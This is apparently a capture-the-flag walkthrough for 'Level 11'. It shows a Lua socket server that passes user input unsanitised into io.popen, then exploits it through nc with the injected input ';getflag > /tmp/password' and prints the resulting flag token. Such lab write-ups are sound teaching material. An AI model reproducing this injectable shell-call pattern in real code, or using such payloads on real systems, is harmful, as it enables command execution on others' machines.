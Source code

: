 # Level 11

As `level11`, running `ls` gives us a lua script...

```lua
  $> cat level11.lua

  #!/usr/bin/env lua
  local socket = require("socket")
  local server = assert(socket.bind("127.0.0.1", 5151))

  function hash(pass)
    prog = io.popen("echo "..pass.." | sha1sum", "r")  
    data = prog:read("*all")
    prog:close()

    data = string.sub(data, 1, 40)

    return data
  end

  while 1 do
    local client = server:accept()
    client:send("Password: ")
    client:settimeout(60)
    local l, err = client:receive()
    if not err then
        print("trying " .. l)
        local h = hash(l)

        if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
            client:send("Erf nope..\n");
        else
            client:send("Gz you dumb*\n")
        end

    end

    client:close()
  end
```

> This script create a socket server on port `5151` that requests an input from the client before processing it to display one message.

The interesting part is the following line:

```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")  
```

Since it evaluates the `pass` variable, which is our input, we can perform the same trick as in previous levels: escape the `echo` to call `getflag`.

```shell
  $> nc 127.0.0.1 5151
  Password: ;getflag > /tmp/password
  Erf nope..
  $> cat /tmp/password
  Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

So, `fa6v5ateaw21peobuub8ipe6s` is the flag for this level.


